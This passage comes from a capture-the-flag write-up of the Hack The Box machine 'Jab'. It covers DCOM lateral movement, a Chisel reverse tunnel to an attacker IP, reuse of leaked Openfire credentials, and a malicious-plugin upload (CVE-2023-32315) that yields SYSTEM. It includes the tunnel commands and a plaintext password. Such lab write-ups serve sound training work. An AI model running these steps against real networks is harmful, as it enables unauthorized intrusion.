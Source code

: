 ![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609222339.png)

> Comments: Since it's necessary to have write permissions on the SMB service to retrieve the output of the command executed by `impacket-dcomexec`, we'll use the flag `-nooutput`, which simply executes the command. [Source ](https://pentest.party/notes/lateral-movement/dcom)
{: .prompt-info }

## User
- Reading `user.txt`

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613144449.png)

## Root
- After performing a deep enumeration on the host, it's observed that there are uncommon processes such as `openfire-service`. The pentester was previously interested in this `openfire-service` due to an `nmap` scan indicating a version of `3.10.0` or later. This interest stems from a quick vulnerability search, revealing the existence of the [`Openfire authentication bypass with RCE plugin: CVE-2023-32315`](https://www.rapid7.com/db/modules/exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315/).

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613115049.png)

- Since it's running internally, he used Chisel to perform a Reverse Pivot and gain access to the internal service. So, he first uploaded the executable `chisel_windows_amd64.exe` to the target host.

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609223512.png)

- It's worth noting that the default ports for the Openfire service are `9090` and `9091` ([Source](https://wiki.archlinux.org/title/Openfire#:~:text=password'%3B%20%3E%20quit%3B-,Install%20%26%20start%20Openfire%20on%20remote,of%20your%20server%20by%20default.)). Then, he established the reverse port forwarding with the following commands.

```bash
chisel server -p 8050 --reverse
./chisel.exe client 10.10.14.151:8050 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091
```

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613112503.png)

- He managed to access the Openfire service and noticed that it's version `4.7.5`. The [`CVE-2023-32315`](https://github.com/miko550/CVE-2023-32315) essentially involves a vulnerability in Openfire version `3.10.0` that allowed an unauthenticated user to access restricted pages in the Openfire Admin Console reserved for administrative users, and then a weaponized plugin with a Java native payload could be uploaded to trigger an RCE. This vulnerability was patched in version `4.7.5`. However, even though our version may not be vulnerable to unauthorized access, the pentester confirmed that they were able to access with the credentials `svc_openfire`:`!@#$%^&*(1qazxsw` with administrator privileges.


![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609230652.png)

- After accessing as `svc_openfire`, the only thing left is to upload the malicious plugin. Since this service runs as `NT Authority\System`, we have full control over the Domain Controller.
